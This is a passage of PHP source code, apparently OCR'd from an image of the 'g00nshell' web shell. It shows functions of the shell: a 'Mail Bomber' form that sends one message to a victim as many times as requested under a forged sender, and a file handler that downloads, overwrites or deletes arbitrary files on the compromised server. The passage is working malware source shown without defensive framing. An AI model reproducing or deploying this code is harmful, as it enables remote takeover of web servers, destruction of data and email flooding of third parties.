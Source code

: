     }
  foreach($folders as $folder){echo("&lt;tr&gt;&lt;td&gt;$folder&lt;/td&gt;&lt;td&gt;DIR&lt;/td&gt;&lt;/tr&gt;\n");}
  foreach($files as $file){echo($file);}
  echo("&lt;/table&gt;");
  closedir($handle);
  }
}
function email(){ // Email bomber function
  $times = $_POST['times'];
  $to = $_POST['to'];
  $subject = $_POST['subject'];
  $body = $_POST['body'];
  $from = $_POST['from'];
  style();
  echo("&lt;h2&gt;Mail Bomber&lt;/h2&gt;
  &lt;form method='POST' action='?act=email'&gt;
  &lt;b&gt;Your address:&lt;/b&gt;&lt;br&gt;
  &lt;input name='from' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;Their address:&lt;/b&gt;&lt;br&gt;
  &lt;input name='to' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;Subject:&lt;/b&gt;&lt;br&gt;
  &lt;input name='subject' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;Text:&lt;/b&gt;&lt;br&gt;
  &lt;input name='body' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;How many times:&lt;/b&gt;&lt;br&gt;
  &lt;input name='times' type='text' size='5'&gt;&lt;br&gt;&lt;br&gt;
  &lt;input name='submit' type='submit' value='Submit'&gt;
  &lt;/form&gt;");
  if ($to && $from){for($i=0;$i&lt;$times;$i++){mail("$to", "$subject", "$body", "From: $from");}}
}
function view($filename, $dir){ // File view function
  if($_POST['fileact'] == "Download"){
    header("Content-type: application/octet-stream");
    header("Content-length: ".strlen($_POST['contents']));
    header("Content-disposition: attachment; filename=" . basename($filename) . ";");
    $handle = fopen($filename, "r");
    echo(fread($handle, filesize($filename)));
    die();
  }
  style();
  if($_POST['contents'] && $_POST['fileact'] == "Save"){
    $handle = fopen($filename, 'w');
    fwrite($handle, stripslashes($_POST['contents']));
    fclose($handle);
    echo("Saved file.&lt;br&gt;&lt;br&gt;");
    echo("&lt;a href='?act=view&f=$filename&dir=nullz'&gt;Go back&lt;/a&gt;");
    die();
  }
  elseif($_POST['fileact'] == "Delete"){
    unlink($filename);
    echo("Deleted file.&lt;br&gt;&lt;br&gt;");
    echo("&lt;a href='?act=files'&gt;Go back&lt;/a&gt;");
    die();
  }
  if($dir != "nullz"){ // heh
    $filename = $dir."/".$filename;
  }
  $bad = array("&lt;", "&gt;");
  $good = array("&lt;", "&gt;");
  $file = fopen($filename, 'r');
  $content = fread($file, @filesize($filename));
  echo("&lt;form name='file' method='POST' action='?act=view&dir=$dir&f=$filename'&gt;");
  echo("&lt;textarea style='width:100%; height:92%;' name='contents'&gt;");

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png